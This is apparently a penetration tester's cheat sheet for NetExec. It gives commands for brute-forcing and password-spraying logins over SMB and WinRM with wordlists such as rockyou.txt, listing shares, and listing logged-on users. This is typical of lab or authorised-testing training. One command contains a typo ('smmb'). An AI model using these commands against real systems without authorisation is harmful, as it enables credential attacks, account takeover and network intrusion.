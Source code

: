 -- -
### General Usage
`(Pwn3d!)` signifies you can login and use system commands, usually also means local admin. 
```bash
# works the same way independent of protocol
# you can put a single username or password
# or you can put a list for bruteforcing either using the same flags
# -u: username or user list
# -p: password or password list
netexec <protocol> <ip> -u <username or user list> -p <password or password list>
netexec smb 10.10.10.10 -u jack -p Password123
netexec winrm 10.10.10.10 -u user.lst -p rockyou.txt

# continue attack even if a valid login is found
netexec winrm 10.10.10.10 -u user.lst -p rockyou.txt --continue-on-success
```
### SMB
```bash
# list available shares for a given user
netexec smb <ip> -u <username> -p <passwd> --shares
```
### Password Spray
```bash
# local auth
netexec <protocol> <ip> -u <userlist> -p '<passwd>' --local-auth 

# AD
netexec <protocol> <ip> -u <userlist> -p '<passwd>'
```
### PsExec
![[Dark Arts I/Services/SMB/Tools/PSExec#^2f3c64|PSExec]]
### Enum Logged on Users
If you have local admin access, you can see which users are currently logged into the system.
```bash
netexec smmb <ip> -u <user> -p '<passwd>' --loggedon-users
```